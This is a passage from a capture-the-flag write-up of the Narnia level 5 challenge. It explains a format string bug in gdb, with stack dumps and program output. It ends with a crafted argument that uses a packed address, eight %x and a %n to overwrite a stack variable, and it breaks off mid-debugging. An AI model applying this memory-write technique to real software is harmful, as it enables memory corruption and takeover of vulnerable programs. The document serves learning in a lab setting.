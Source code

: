 After a moments thought it occurred to me that the 4 “\x41” were placed onto the stack at 0xffffd6cc, but the “1” value for the i integer is at 0xffffd70c.

```
(gdb) x/50wx $esp
0xffffd6a0:     0xffffd6cc      0x00000040      0xffffd8ee      0xf7e5efc3
0xffffd6b0:     0x08048261      0x00000000      0x00ca0000      0x00000001
0xffffd6c0:     0xffffd8d8      0x0000002f      0xffffd71c      0x41414141 <- The 4 A's
0xffffd6d0:     0x35653766      0x33636665      0x38343038      0x30313632
0xffffd6e0:     0x30306163      0x66313030      0x64666666      0x32386438
0xffffd6f0:     0x66666666      0x31376466      0x34313463      0x34313431
0xffffd700:     0xf7fe0031      0x00000000      0x08048529      0x00000001 <- the value for i
0xffffd710:     0x08048520      0x00000000      0x00000000      0xf7e454b3
0xffffd720:     0x00000002      0xffffd7b4      0xffffd7c0      0xf7fd3000
0xffffd730:     0x00000000      0xffffd71c      0xffffd7c0      0x00000000
0xffffd740:     0x0804822c      0xf7fceff4      0x00000000      0x00000000
0xffffd750:     0x00000000      0x1a239250      0x2d253640      0x00000000
0xffffd760:     0x00000000      0x00000000
(gdb) c
Continuing.
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAAf7e5efc380482610ca00001ffffd8d82fffffd71c41414141] (53)
i = 1 (0xffffd70c)
[Inferior 1 (process 6017) exited normally]
```

This because of this, I need to work out how I can write to the stack is a specific location (0xffffd70c), so I started trying to use a similar method the one I used to solve level 9 of the SmashTheStack IO series of challenges. However this didn’t work out for me, a month of so after my last attempt to solve this challenge I was contacted by hakan, who helped me onto the right path needed to solve this challenge.

He pointed out that if 9 “%x” allows me to read the first 4 bytes back off the stack, 8 would allow me to write to the stack. This meant if I replaced one of the “%x” for a “%n” I would be able to change the value of i. This also meant I need to change the 4 “A”s to the memory address of where i is located.
```
narnia5@melinda:/narnia$ gdb -q ./narnia5
Reading symbols from /games/narnia/narnia5...(no debugging symbols found)...done.
(gdb) br *0x08048471
Breakpoint 1 at 0x8048471
(gdb) br *0x0804848c
Breakpoint 2 at 0x804848c
(gdb) r $(python -c 'print "\x0c\xd7\xff\xff"')%x%x%x%x%x%x%x%x%n
Starting program: /games/narnia/narnia5 $(python -c 'print "\x0c\xd7\xff\xff"')%x%x%x%x%x%x%x%x%n
 
Breakpoint 1, 0x08048471 in main ()
(gdb) x/50wx $esp
0xffffd6a0:     0xffffd6cc      0x00000040      0xffffd8f0      0xf7e5efc3
0xffffd6b0:     0x08048261      0x00000000      0x00ca0000      0x00000001
0xffffd6c0:     0xffffd8da      0x0000002f      0xffffd71c      0xf7fceff4
0xffffd6d0:     0x08048520      0x08049840      0x00000002      0x08048319
0xffffd6e0:     0xf7fcf3e4      0x00008000      0x08049840      0x08048541
0xffffd6f0:     0xffffffff      0xf7e5f116      0xf7fceff4      0xf7e5f1a5
0xffffd700:     0xf7feb660      0x00000000      0x08048529      0x00000001  <- Before the snprintf() is called
0xffffd710:     0x08048520      0x00000000      0x00000000      0xf7e454b3
0xffffd720:     0x00000002      0xffffd7b4      0xffffd7c0      0xf7fd3000
0xffffd730:     0x00000000      0xffffd71c      0xffffd7c0      0x00000000
0xffffd740:     0x0804822c      0xf7fceff4      0x00000000      0x00000000
0xffffd750:     0x00000000      0x9af939a3      0xadff9db3      0x00000000
0xffffd760:     0x00000000      0x00000000
(gdb) ni
0x08048476 in main ()
(gdb) x/50wx $esp
```
